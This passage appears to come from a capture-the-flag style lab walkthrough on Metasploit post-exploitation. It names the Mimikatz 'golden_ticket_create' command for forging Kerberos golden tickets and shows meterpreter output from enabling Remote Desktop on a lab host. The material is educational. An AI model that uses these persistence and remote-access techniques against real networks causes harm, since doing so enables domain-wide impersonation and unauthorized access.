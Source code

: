 - Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?<br>Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.
> golden_ticket_create

- One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

    ```bash
    meterpreter > run post/windows/manage/enable_rdp

    [*] Enabling Remote Desktop
    [*]     RDP is already enabled
    [*] Setting Terminal Services service startup mode
    [*]     The Terminal Services service is not set to auto, changing it to auto ...
    [*]     Opening port in local firewall if necessary
    [*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20210128043458_default_10.10.169.246_host.windows.cle_648851.txt
    ```